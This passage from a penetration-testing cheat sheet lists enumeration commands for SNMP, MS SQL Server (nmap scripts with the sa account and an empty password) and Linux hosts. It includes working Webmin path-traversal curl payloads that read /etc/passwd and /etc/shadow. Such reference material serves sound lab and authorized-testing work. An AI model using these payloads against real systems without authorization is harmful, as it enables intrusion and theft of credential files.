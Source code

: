         -   `onesixtyone -c names -i hosts`

    -   SNMPv3 Enumeration  
        `nmap -sV -p 161 --script=snmp-info $ip/24`

    -   Automate the username enumeration process for SNMPv3:  
        `apt-get install snmp snmp-mibs-downloader  `
        `wget <https://raw.githubusercontent.com/raesene/TestingScripts/master/snmpv3enum.rb>`

    -   SNMP Default Credentials  
        /usr/share/metasploit-framework/data/wordlists/snmp\_default\_pass.txt


-   MS SQL Server Enumeration

    -   Nmap Information Gathering
        
        `nmap -p 1433 --script ms-sql-info,ms-sql-empty-password,ms-sql-xp-cmdshell,ms-sql-config,ms-sql-ntlm-info,ms-sql-tables,ms-sql-hasdbaccess,ms-sql-dac,ms-sql-dump-hashes  --script-args mssql.instance-port=1433,mssql.username=sa,mssql.password=,mssql.instance-name=MSSQLSERVER $ip`
        
-   Webmin and miniserv/0.01 Enumeration - Port 10000

      Test for LFI & file disclosure vulnerability by grabbing /etc/passwd
        
        `curl http://$ip:10000//unauthenticated/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/etc/passwd`
        
      Test to see if webmin is running as root by grabbing /etc/shadow
      
        `curl http://$ip:10000//unauthenticated/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/..%01/etc/shadow`

-   Linux OS Enumeration

    -   List all SUID files  
        `find / -perm -4000 2>/dev/null`

    -   Determine the current version of Linux  
        `cat /etc/issue`

    -   Determine more information about the environment  
        `uname -a`
        
    -   List processes running  
        `ps -xaf`

    -   List the allowed (and forbidden) commands for the invoking use  
        `sudo -l`

    -   List iptables rules  
        `iptables --table nat --list  
        iptables -vL -t filter  
        iptables -vL -t nat  
        iptables -vL -t mangle  
        iptables -vL -t raw  
        iptables -vL -t security`
